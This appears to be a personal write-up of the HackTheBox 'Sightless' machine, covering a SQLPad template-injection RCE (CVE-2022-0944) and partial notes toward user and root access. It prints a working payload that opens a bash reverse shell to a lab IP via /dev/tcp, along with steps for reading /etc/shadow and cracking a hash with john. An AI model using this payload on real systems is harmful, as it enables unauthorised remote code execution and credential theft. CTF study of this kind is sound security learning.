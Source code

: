 
2024-11-02 11:18

Source: #CTF #htb 

Tags: [[Privilege Escalation]]

### Foothold

The target system has only three open ports: 21 (ftp), 22 (ssh), and 80 (http)
port 80 has a website and the website offers some services. Among the available services, there’s a redirection to `sqlpad.sightless.htb`. To access this service, ensure that you add the domain `sqlpad.sightless.htb` to your hosts file.
### Exploit

The installed version of SQLPad, identified as 6.10.0, can be found via BurpSuite or by clicking `info` on the top right hand of the screen. While analyzing the vulnerabilities in this version, it was discovered that it is affected by CVE-2022-0944. ([Link](https://huntr.com/bounties/46630727-d923-4444-a421-537ecd63e7fb))

Manual method for the exploit is as follows- 
- set up a listener by using `nc -lvnp 9000`
	1. **Click on “Connection”**
	2. **Create a New Connection**
	3. **Choose MySQL as the Database**
	4. **Enter the Payload or credentials into the Database**
	5. **Test the Connection** to ensure the configuration is correct and the connection is successful.

**Payload**  - 
```
{{ process.mainModule.require(‘child_process’).exec(‘bash -c “bash -i >& /dev/tcp/10.10.14.9/9001 0>&1”’) }}
```
if this doesn't work refer [this post](https://www.reddit.com/r/hackthebox/comments/1fiba4r/stuck_on_sightless_box/)

This CVE also has a prebuilt exploit that can be found in the References section 
### User Flag

Upon further examination, I discovered that the `.dockerenv` file is indeed present, confirming the application is running within a Docker container. Additionally, after inspecting the system’s users, I identified two accounts: one belonging to “michael” and another to “node.”

access the `/etc/shadow` file and we see hashes of michael user 
copy the hash completely in a file named `hash` and use john to crack it 
```sh
john hash -w=/usr/share/wordlists/rockyou.txt
```
### Priv esc







get linpeas in your system via wget 
[[File transfer]]


jabhi wget use kar raha hai file transfer ke liye toh apne kali mei hi karna server shuru, windows mei nhi

### References
https://app.hackthebox.com/machines/624

Exploit - https://github.com/0xRoqeeb/sqlpad-rce-exploit-CVE-2022-0944

https://thecybersecguru.com/ctf-walkthroughs/mastering-sightless-beginners-guide-from-hackthebox/
https://www.youtube.com/watch?v=DWX6Fp6fWt4